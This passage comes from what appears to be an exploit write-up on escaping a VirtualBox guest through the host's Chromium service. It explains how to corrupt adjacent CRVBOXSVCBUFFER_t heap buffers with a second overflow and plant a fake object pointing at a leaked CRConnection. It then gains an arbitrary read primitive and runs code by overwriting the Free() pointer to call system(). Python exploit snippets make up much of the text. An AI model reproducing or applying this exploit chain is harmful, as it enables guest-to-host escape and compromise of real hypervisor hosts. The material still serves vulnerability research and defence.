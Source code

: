 Now we have everything we need to make a second overflow, whose content we can finally control. Our ultimate goal is to overwrite the `pData` field and make it point to the `CRConnection` object that we have previously leaked.

#### The second overflow

Using `new_id` and size 0x0a0a0a30, we will now corrupt a second `CRVBOXSVCBUFFER_t`. Similar to the previous overflow, this works because these buffers are adjacent to each other. However, this time we overwrite it with our fake object that has ID 0x13371337, size 0x290 and a pointer to `self.pConn`.

```python
try:
    fake = pack("<IIQQQ", 0x13371337, 0x290, self.pConn, 0, 0)
    hgcm_call(self.client, SHCRGL_GUEST_FN_WRITE_BUFFER, [new_id, 0x0a0a0a30, spray_len + 0x10, fake])
    print("[+] Exploit successful.")
except IOError:
    exit("[-] Exploit failed.")
```

Note that `spray_len + 0x10` represents the offset (again we skip 0x10 bytes of the chunk header). After doing this, we can arbitrarily modify the content of the `CRConnection` object. As explained before, this ultimately enables us an arbitrary read primitive and allows us to call anything we want by replacing the `Free()` function pointer.

#### Arbitrary read primitive

When issuing a `SHCRGL_GUEST_FN_READ` command, the data from `pHostBuffer` will be sent back to guest. Using our custom 0x13371337 ID at offset `OFFSET_CONN_HOSTBUF` and `OFFSET_CONN_HOSTBUFSZ`, we can overwrite this pointer and its corresponding size with custom ones. Then, we send the `SHCRGL_GUEST_FN_READ` message using the `self.client2` client to trigger our arbitrary read (this is the client ID of the leaked `CRConnection`):

```python
hgcm_call(self.client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0x13371337, 0x290, OFFSET_CONN_HOSTBUF,   pack("<Q", where)])
hgcm_call(self.client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0x13371337, 0x290, OFFSET_CONN_HOSTBUFSZ, pack("<I", n)])
res, sz = hgcm_call(self.client2, SHCRGL_GUEST_FN_READ, ["A"*0x1000, 0x1000])
```

#### Arbitrary code execution

Every `CRConnection` object has got function pointers `Alloc()`, `Free()`, etc. to store message buffers of the guest. Furthermore, they take their `CRConnection` object itself as the first argument. This is perfect as it can be be used to kick off a ROP chain for example, or simply call `system()` with arbitrary commands.

To do this, we overwrite the pointer at offset `OFFSET_CONN_FREE` and the content of our desired argument at offset 0 as follows:

```python
hgcm_call(self.client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0x13371337, 0x290, OFFSET_CONN_FREE, pack("<Q", at)])
hgcm_call(self.client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0x13371337, 0x290, 0, cmd])
```
